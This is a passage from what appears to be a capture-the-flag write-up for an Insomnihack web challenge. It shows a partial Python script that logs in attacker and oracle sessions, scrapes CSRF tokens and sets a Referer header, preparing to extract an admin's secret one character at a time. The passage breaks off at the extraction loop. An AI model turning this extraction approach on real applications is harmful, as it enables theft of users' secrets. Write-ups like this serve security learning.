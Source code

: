 ![meme2](images/7.jpg)

Finally, I create the following python script which will extract the admin's secret char by char :

```py
import requests, string
import warnings
warnings.filterwarnings("ignore")
base_url = "http://localhost:8000/" # https://insopass.insomnihack.ch/
flag = "INS{" #flag format
create_secrets_url = f"{base_url}secrets/add/"
login_url = f"{base_url}users/login/"
page_secrets = f"{base_url}secrets/"
delete_secrets = f"{base_url}secrets/delete/"

S_attackant = requests.Session()
S_oracle = requests.Session()

# 403 if the request has not a Referer header
headers = {"Referer":base_url}

# Retrieve csrf_token, thanks django.......
csrf_token = S_attackant.get(login_url,verify=False,headers=headers).text.split('name="csrfmiddlewaretoken" value="')[1].split('"')[0]
S_attackant.post(login_url,data={"csrfmiddlewaretoken":csrf_token,"username":"Worty","password":"Pokemon35"},verify=False,headers=headers)

# Retrieve csrf_token, thanks django.......
csrf_token = S_oracle.get(login_url,verify=False,headers=headers).text.split('name="csrfmiddlewaretoken" value="')[1].split('"')[0]
S_oracle.post(login_url,data={"csrfmiddlewaretoken":csrf_token,"username":"Worty2","password":"Pokemon35"},verify=False,headers=headers)


for i in range(44): # Arbitrary range
```